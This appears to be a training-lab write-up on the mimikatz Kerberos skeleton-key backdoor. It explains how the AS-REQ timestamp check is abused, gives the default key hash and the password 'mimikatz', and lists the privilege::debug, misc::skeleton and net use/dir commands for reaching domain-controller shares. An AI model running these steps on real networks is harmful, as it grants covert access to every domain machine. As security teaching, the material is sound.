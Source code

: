 Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password. 

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 

The default hash for a mimikatz skeleton key is _60BA4FCADC466C7A033C178194C03DF6_ which makes the password -"_mimikatz_"

This will only be an overview section and will not require you to do anything on the machine however I encourage you to continue yourself and add other machines and test using skeleton keys with mimikatz.

Skeleton Key Overview -

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

![](https://i.imgur.com/yNI0zEb.png)

Preparing Mimikatz - 

1.) `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

![](https://i.imgur.com/ZPOMDMo.png)  

Installing the Skeleton Key w/ mimikatz -

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful

![](https://i.imgur.com/wI802gw.png)  

Accessing the forest - 

The default credentials will be: "_mimikatz_"  

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.